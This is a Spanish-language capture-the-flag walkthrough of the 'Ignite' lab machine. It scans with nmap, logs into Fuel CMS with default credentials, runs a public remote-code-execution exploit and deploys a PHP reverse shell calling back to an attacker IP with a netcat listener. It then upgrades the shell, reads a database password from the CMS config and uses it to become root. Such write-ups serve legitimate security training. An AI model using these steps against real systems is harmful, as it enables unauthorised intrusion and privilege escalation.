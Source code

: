 # IGNITE

## Reconocimiento

Iniciamos con un escaneo Nmap para identificar los puertos abiertos, versiones de servicios y demás información relevante:

``nmap -T4 --min-rate=10000 -p- -A IP_MAQUINA_ATACADA``

Explicación de los parámetros:
1. `-T4` -> Define la velocidad del escaneo.
2. `--min-rate=10000` -> Envía al menos 10,000 paquetes por segundo.
3. `-p-` -> Escanea todos los puertos disponibles.
4. `-A` -> Activa un escaneo agresivo para obtener más información.

![Imagen1](/Iginite/assets/2025-02-06%2018_06_24-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

El escaneo revela que el único puerto abierto es el **80/tcp**, donde se ejecuta un servidor web Apache con **Fuel CMS**. Además, el archivo `robots.txt` indica que la página de inicio de sesión del CMS se encuentra en `/fuel`.

## Explotación de la Web

Accedemos al sitio web en el puerto 80:

![Imagen2](/Iginite/assets/Captura%20de%20pantalla%202025-02-06%20194100.png)

Desde la página principal de Fuel CMS, intentamos iniciar sesión con las credenciales por defecto ``admin:admin``

`http://DIRECCION_DE_LA_WEB_ATACADA/fuel`

![Imagen3](/Iginite/assets/2025-02-06%2018_08_44-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

El sesión es exitoso, por lo que accederemos al panel de control:

![Imagen4](/Iginite/assets/2025-02-06%2018_09_24-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Al hacer clic en "Click here for your site documentation", obtenemos la versión del CMS instalada, en este caso, **Fuel CMS 1.4**.

![Imagen5](/Iginite/assets/2025-02-06%2018_11_28-KaliLinux-Hacking%20-%20VMware%20Workstation.png)

Buscando en Google vulnerabilidades para esta versión, encontramos un exploit para **Fuel CMS 1.4.1**, por lo que lo descargamos.

![Imagen6](</Iginite/assets/2025-02-06 18_14_27-KaliLinux-Hacking - VMware Workstation.png>)

Ejecutamos el exploit con:

``python3 50477.py -u http://DIRECCION_DE_LA_WEB_ATACADA``

![Imagen7](</Iginite/assets/2025-02-06 18_38_46-KaliLinux-Hacking - VMware Workstation.png>)

Descargamos una **reverse shell en PHP** desde PentestMonkey:

``wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz``

![Imagen8](</Iginite/assets/2025-02-06 18_41_01-KaliLinux-Hacking - VMware Workstation.png>)

Extraemos y editamos el archivo `.php`, reemplazando la IP y el puerto:

```php
$ip = "IP_MAQUINA_ATACANTE";
$port = "PUERTO_LIBRE";
```

![Imagen9](</Iginite/assets/2025-02-06 18_42_44-KaliLinux-Hacking - VMware Workstation.png>)

Levantamos un servidor web en nuestra máquina atacante:

``python3 -m http.server 80``

![Imagen10](</Iginite/assets/2025-02-06 18_48_50-KaliLinux-Hacking - VMware Workstation.png>)

Desde el servidor comprometido, descargamos la reverse shell:

![Imagen11](</Iginite/assets/2025-02-06 18_50_09-KaliLinux-Hacking - VMware Workstation.png>)

Antes de ejecutarla, ponemos en escucha nuestro puerto con Netcat:

``nc -nlvp PUERTO_CONFIGURADO``

![Imagen12](</Iginite/assets/2025-02-06 19_01_48-KaliLinux-Hacking - VMware Workstation.png>)

Ejecutamos la reverse shell accediendo desde el navegador:

``http://DIRECCION_DE_LA_WEB_ATACADA/NOMBRE_ARCHIVO_REVERSE_SHELL``

![Imagen13](</Iginite/assets/2025-02-06 19_07_51-KaliLinux-Hacking - VMware Workstation.png>)

## Comprometiendo la Máquina

Si todo ha funcionado correctamente, obtenemos acceso como `www-data` en el sistema remoto:

``whoami``

![Imagen14](</Iginite/assets/2025-02-06 19_08_15-KaliLinux-Hacking - VMware Workstation.png>)

Para mejorar la shell, ejecutamos:

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
<CTRL> + Z
stty raw -echo; fg
```

![Imagen15](</Iginite/assets/2025-02-06 19_09_34-KaliLinux-Hacking - VMware Workstation.png>)

Buscamos la primera flag dentro del **home** del usuario comprometido `www-data`:

``cat flag.txt``

![Imagen16](</Iginite/assets/2025-02-06 19_10_53-KaliLinux-Hacking - VMware Workstation.png>)

## Escalada de Privilegios

Revisamos la configuración de Fuel CMS en:

``fuel/application/config/database.php``

![Imagen17](</Iginite/assets/2025-02-06 19_11_51-KaliLinux-Hacking - VMware Workstation.png>)

Extraemos la contraseña con:

``cat database.php | grep "pass"``

![Imagen18](</Iginite/assets/2025-02-06 19_16_22-KaliLinux-Hacking - VMware Workstation.png>)

Probamos la contraseña con `su -` para obtener acceso root:

``su -``

Ingresamos la contraseña obtenida (`mememe`).

![Imagen19](</Iginite/assets/2025-02-06 19_19_22-KaliLinux-Hacking - VMware Workstation.png>)

Ya como root, buscamos y mostramos la flag final:

``cat /root/root.txt``

![Imagen20](</Iginite/assets/2025-02-06 19_19_53-KaliLinux-Hacking - VMware Workstation.png>)

¡Máquina comprometida con éxito!

